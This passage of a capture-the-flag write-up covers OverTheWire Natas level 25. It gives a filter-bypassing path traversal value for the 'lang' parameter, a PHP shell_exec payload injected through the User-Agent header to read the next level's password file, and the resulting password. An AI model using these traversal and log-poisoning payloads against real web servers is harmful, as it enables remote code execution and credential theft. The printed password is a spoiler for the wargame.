 The full `lang` parameter will be:

```plaintext
lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_7lvrcllholm870j9gb45u8cb55.log
```

My `session_id`: **7lvrcllholm870j9gb45u8cb55**

Going to Burp Suite, catch the GET request and change the `HTTP_USER_AGENT` into this PHP script.

```php
<?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>
```

![image](/assets/images/lv25-4.png)

Password: **cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE**
